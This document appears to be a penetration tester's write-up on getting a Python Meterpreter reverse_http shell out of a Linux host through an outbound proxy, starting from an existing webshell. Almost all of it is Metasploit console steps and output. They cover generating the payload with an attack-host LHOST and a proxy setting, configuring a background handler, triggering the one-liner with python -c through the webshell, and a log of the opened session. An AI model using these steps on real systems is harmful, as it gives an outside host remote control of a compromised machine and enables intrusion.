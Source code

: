 # Metasploit - Python Meterpreter through Proxy

I got into a situation recently where I had a webshell on a Linux system and I wanted to get a full Meterpreter. Initially we thought that there was no outbound access but after a fellow teammate reversed some .jar files found on the system the proxy server was discovered. Basically now I needed a reverse shell that allowed me to specify a proxy for outbound connections. I sent a quick message to @TheColonial on IRC and he let me know that Python HTTP/HTTPS Meterpreters could do what I needed.

### Testing Python on the webshell

First I used the webshell to test the ability to run Python

```python -c "import os;os.system('ls')"```

### Generating the payload

When this worked I moved onto generating the meterpreter payload:

```msf > use payload/python/meterpreter/reverse_http```

Next I set my attack host ip address and the ip address of the outbound proxy:

```
msf payload(reverse_http) > show options

Module options (payload/python/meterpreter/reverse_http):

   Name              Current Setting            Required  Description
   ----              ---------------            --------  -----------
   LHOST             *attack host ip*           yes       The local listener hostname
   LPORT             80                         yes       The local listener port
   LURI                                         no        The HTTP Path
   PayloadProxyHost  *outbound proxy*           no        The proxy server's IP address
   PayloadProxyPort  80                         yes       The proxy port to connect to
```

Last step was to generate the payload:

```
msf payload(reverse_http) > generate -b '\x00\xff' -t raw -f meterp-python-https-80.py
[*] Writing 606 bytes to meterp-python-http-80.py...
```

This will generate a one liner that you can use to trigger the payload.

### Setting up the Handler

The next step is to setup the handler:
```
msf payload(reverse_http) > use exploit/multi/handler
```

Then I set the handler payload option:
```
msf exploit(handler) > set payload python/meterpreter/reverse_http
payload => python/meterpreter/reverse_http
```

Followed by the other needed options:

```
msf exploit(handler) > set LHOST *attack host ip*
LHOST => *attack host ip*
msf exploit(handler) > set LPORT 80
LPORT => 80
msf exploit(handler) > set PayloadProxyHost *outbound proxy*
PayloadProxyHost => *outbound proxy*
msf exploit(handler) > set Payloadproxyport 80
Payloadproxyport => 80
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (python/meterpreter/reverse_http):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   LHOST             *attack host ip* yes       The local listener hostname
   LPORT             80               yes       The local listener port
   LURI                               no        The HTTP Path
   PayloadProxyHost  *outbound proxy* no        The proxy server's IP address
   PayloadProxyPort  80               yes       The proxy port to connect to


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
   
```
There are a few additional options I set such as ExitOnSession to false so the handler remains open for multiple connections just in case the first one fails. Also I set verbose to true to get more verbose output for troublehsooting:

```
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set VERBOSE true
verbose => true
```

Lastly I start the handler with exploit -j so it runs in the background:

```
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```

### Triggering the payload

Next take the payload one liner that was generated and use python -c to trigger the payload in your webshell(Other forms of command execution could be potentially used to do this as well):

```
python -c "*python meterpreter one liner*"
```

And recieve payload:

```
[*] http://*attack host*:80 handling request from *outbound proxy*; (UUID: 6dvezhby) Staging Python payload...
[*] Meterpreter session 1 opened (*victim*:80 -> *outbound proxy*:12480) at 2016-10-05 00:12:02 +0000
```

Enjoy your Meterpreter :)
